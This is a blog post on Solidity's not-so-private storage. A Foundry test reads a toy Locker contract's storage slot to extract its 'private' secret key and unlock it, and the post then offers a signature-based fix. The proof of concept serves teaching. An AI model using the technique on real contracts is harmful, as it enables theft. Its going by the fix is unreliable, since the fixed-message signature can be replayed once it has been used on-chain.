 ```yaml
---
title: Not so private Solidity storage
date: '2023-05-09T00:00:00Z'
modifiedTime: '2023-05-09T00:00:00Z'
summary: Introduce private storage vulnerability. An example of un-authenticated private information retrieval and discuss solution.
image: 'blogs/blockchain/private_storage/cover.webp'
seriesName: 'Block Security'
seriesIndex: 2
type: BlogPost
---
```


# Problem introduction

In Solidity, you can define private variables in a contract to keep them hidden from other contracts.
Private variables are only accessible within the contract in which they are defined and cannot be accessed
or modified by other contracts or external users. This behavior is expected from programming languages which support OOP paradigm.

However, it's important to note that private variables are still visible to all participants on the blockchain, including miners and nodes.
This means that the values of private variables are not completely hidden,
and should not be used to store sensitive information such as passwords or private keys.

# An example

We will showcase an exploitation example in Foundry-VM.

## The Locker contract

Let's defined a `Locker` contract with 16bytes `secretKey` as below:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.13;

contract Locker {
  bool public locked = true; // 1 bytes
  bytes16 private secretKey; // 16 bytes

  constructor(bytes16 _secretKey) {
    secretKey = _secretKey;
  }

  function unlock(bytes16 _key) public {
    require(_key == bytes16(secretKey));
    locked = false;
  }
}

```

## Unlock

If we analyze [storage allocation](https://ethereum.org/en/developers/docs/smart-contracts/anatomy/#data) of the contract above, the result is:

<Image
  src="/blogs/blockchain/private_storage/storage.webp"
  width="1200"
  height="500"
  caption="Storage layout of Locker contract"
/>

Having that information in hand, an example unlocker would perform the following step:

1. Inspect the target contract
2. Load from contract storage slot 0
3. Extract `secretKey = bytes[15..30]` from the storage
4. Use the secret key to unlock.

An example mockup is implemented as follows:

```solidity
pragma solidity ^0.8.13;

import "forge-std/Test.sol";
import "~/private_lock/Locker.sol"; // the defined Locker contract

contract LockerTest is Test {
  Locker public targetLocker;

  function setUp() public {
    bytes16 secretPhrase = bytes16(keccak256(abi.encodePacked(tx.origin, "SECRET_HASH")));
    targetLocker = new Locker(secretPhrase);
  }

  function breakSecret(Locker _targetLocker) internal view returns (bytes16) {
    // Step 1: Identify the contract
    address lockerAddress = address(_targetLocker);
    // Step 2: Retrieve storage data from at block 0 from the smart contract
    bytes32 secretDataBlock = vm.load(lockerAddress, bytes32(uint256(0)));

    // LAYOUT: 15 "0" | 16 (secretKey) | 1 ("locked" status) [SLOT 0]
    // Step 3: Retrieve byte 16th to 31th, which is the secret key.
    bytes16 secretKey = bytes16(secretDataBlock << (15 * 8));

    return secretKey;
  }

  function testUnlockLocker() public {
    // Step 4: Unlock
    bytes16 secretKey = breakSecret(targetLocker);
    targetLocker.unlock(secretKey);

    bool isUnlocked = !targetLocker.locked();
    assertTrue(isUnlocked, "Hacker should break the lock");
  }
}
```

# Prevention

A simple solution to make the contract more secured is using a pre-defined signature as the secret key.
For this example, I use elliptic curve DSA:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.13;

import "@openzeppelin/contracts/utils/cryptography/ECDSA.sol";

contract SecureLocker {
  bool public locked = true; // 1 bytes
  address private owner;
  using ECDSA for bytes32;

  constructor(address _owner) {
    owner = _owner;
  }

  function unlock(bytes memory _signature) public {
    // EIP 712 Signature Validation: https://eips.ethereum.org/EIPS/eip-712
    bytes memory eth_msg = abi.encodePacked("\x19Ethereum Signed Message:\n20", "<SECRET_OFFCHAIN_MSG>");
    bytes32 hash = keccak256(eth_msg);
    if (owner == hash.recover(_signature)) {
      locked = false;
    }
  }
}
```

With this setup, the contract owner will store their signature (secret key) offchain and use it on `unlock` calls.

# References

1. [Ethernaut Level 12](https://ethernaut.openzeppelin.com/level/12)
2. [Ethereum storage layout](https://ethereum.org/en/developers/docs/smart-contracts/anatomy/#data)
3. [Ethereum OpCodes](https://ethereum.org/en/developers/docs/evm/opcodes/)
